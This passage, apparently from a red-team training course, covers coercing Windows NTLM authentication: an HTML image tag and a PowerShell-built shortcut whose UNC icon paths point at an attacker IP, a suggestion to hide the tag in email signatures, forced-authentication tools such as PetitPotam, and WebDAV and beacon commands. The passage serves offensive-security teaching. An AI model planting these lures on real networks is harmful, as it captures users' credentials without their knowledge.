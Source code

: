 ```
<img src="\\10.10.123.102\test.ico" height="1" width="1" />
```

A sneakier means may be to modify the sender's email signature, so that even legitimate emails they send will trigger NTLM authentication from every recipient who reads them.

#### Windows Shortcuts

A Windows shortcut can have multiple properties including a target, working directory and an icon.  Creating a shortcut with the icon property pointing to a UNC path will trigger an NTLM authentication attempt when it's viewed in Explorer (it doesn't even have to be clicked).  A good location for these is on publicly readable shares.

The easiest way to create a shortcut is with PowerShell.

```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc-2\software\test.lnk")
$shortcut.IconLocation = "\\10.10.123.102\test.ico"
$shortcut.Save()
```

  

#### Remote Authentication Triggers

Tools such as [SpoolSample](https://github.com/leechristensen/SpoolSample), [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) and [PetitPotam](https://github.com/topotam/PetitPotam) can force a computer into authenticating to us.  These generally work via Microsoft RPC protocols, such as [MS-RPRN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and [MS-EFS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/4892c610-4595-4fba-a67f-a2d26b9b6dcd).


## Relaying WebDAV

---

Web Distributed Authoring and Versioning (aka WebDAV) is an extension that allows for basic file operations (create/copy/move/delete) over the HTTP protocol.  Windows supports the use of WebDAV via Explorer where users can enter a URI or map a drive to a WebDAV server.  The WebClient service facilitates Explorer's ability to use WebDAV.  This is set to `DEMAND_START` by default, so is generally only running if a user has actively used a WebDAV resource.  Some Windows technologies, such as SharePoint, use WebDAV fairly heavily.

```
C:\Users\bfarmer>sc qc WebClient
```

The [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) repo by [Dave Cossa](https://twitter.com/G0ldenGunSec) provides C# and BOF projects that check for the presence of this named pipe.

```
beacon> inline-execute C:\Tools\GetWebDAVStatus\GetWebDAVStatus_BOF\GetWebDAVStatus_x64.o wkstn-1,wkstn-2
```
